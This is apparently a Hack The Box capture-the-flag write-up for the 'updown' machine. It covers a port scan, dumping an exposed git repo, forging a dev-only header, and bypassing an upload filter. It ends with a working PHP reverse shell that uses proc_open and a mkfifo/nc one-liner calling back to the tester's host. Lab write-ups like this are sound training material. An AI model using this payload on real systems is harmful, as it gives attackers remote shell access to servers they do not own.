## RUSTSCAN
`PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9e1f98d7c8ba61dbf149669d701702e7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDl7j17X/EWcm1MwzD7sKOFZyTUggWH1RRgwFbAK+B6R28x47OJjQW8VO4tCjTyvqKBzpgg7r98xNEykmvnMr0V9eUhg6zf04GfS/gudDF3Fbr3XnZOsrMmryChQdkMyZQK1HULbqRij1tdHaxbIGbG5CmIxbh69mMwBOlinQINCStytTvZq4btP5xSMd8pyzuZdqw3Z58ORSnJAorhBXAmVa9126OoLx7AzL0aO3lqgWjo/wwd3FmcYxAdOjKFbIRiZK/f7RJHty9P2WhhmZ6mZBSTAvIJ36Kb4Z0NuZ+ztfZCCDEw3z3bVXSVR/cp0Z0186gkZv8w8cp/ZHbtJB/nofzEBEeIK8gZqeFc/hwrySA6yBbSg0FYmXSvUuKgtjTgbZvgog66h+98XUgXheX1YPDcnUU66zcZbGsSM1aw1sMqB1vHhd2LGeY8UeQ1pr+lppDwMgce8DO141tj+ozjJouy19Tkc9BB46FNJ43Jl58CbLPdHUcWeMbjwauMrw0=
|   256 c21cfe1152e3d7e5f759186b68453f62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKMJ3/md06ho+1RKACqh2T8urLkt1ST6yJ9EXEkuJh0UI/zFcIffzUOeiD2ZHphWyvRDIqm7ikVvNFmigSBUpXI=
|   256 5f6e12670a66e8e2b761bec4143ad38e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL1VZrZbtNuK2LKeBBzfz0gywG4oYxgPl+s5QENjani1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port`

* * *
## HTTP
Loggin into website we see that website's real URL should be:

Now adding it to our hosts file and running a subdomain enumeration we found another subdomain:


No webdirectories have been found on the dev subdomain:


We found only one directory on the main website:


And recursing /dev folder on main website we find traces about a git repo:


And dumping the repo from http://siteisup.htb/dev with git-dumper we get some interesting data:


Checking git logs we can see some interersting data:


Surfing all those files didn't shows us that much except the .htaccess:


Checkign the code i guess to access http://dev.siteisup.htb/ we need to have `Special-Dev: "only4dev"`  in the header, that's why the vhost is not showing anything.
Now easiest is to add a "match & replace" rule that requests for a new Header with `Special-Dev: "only4dev"` as replace, like this:


Next time we refresh the site via Burpsuite it will load the dev-website:


We know by checking the source code from index.php that we got from git repository, we can see how a size check should be less that 10kb and only some file formats are allowed:


We can find here good tips on how to bypass this controls:
https://book.hacktricks.xyz/pentesting-web/file-upload

To bypass file we can use phtm format since it's not blacklisted but seems like file get's deleted after parsing:


What can we do is to generate 200 random URL string and add them to our file in the head so we buy us some time before file get's delete. We can create a info.phar and se what can we get:


Checking into phpinfo all of the php functions used by revshells are blocked, so we need to use something other like proc_open:
https://prototype.php.net/manual/en/function.proc-open.php

Here is our code that run a revshell:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/updown.htb]
└─# cat shelly.phar
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open("sh", $descriptorspec, $pipes);
if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.7 5555 >/tmp/f");
    fclose($pipes[0]);

    while (!feof($pipes[1])) {
        echo fgets($pipes[1], 1024);
    }
    fclose($pipes[1]);
    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>`

* * *
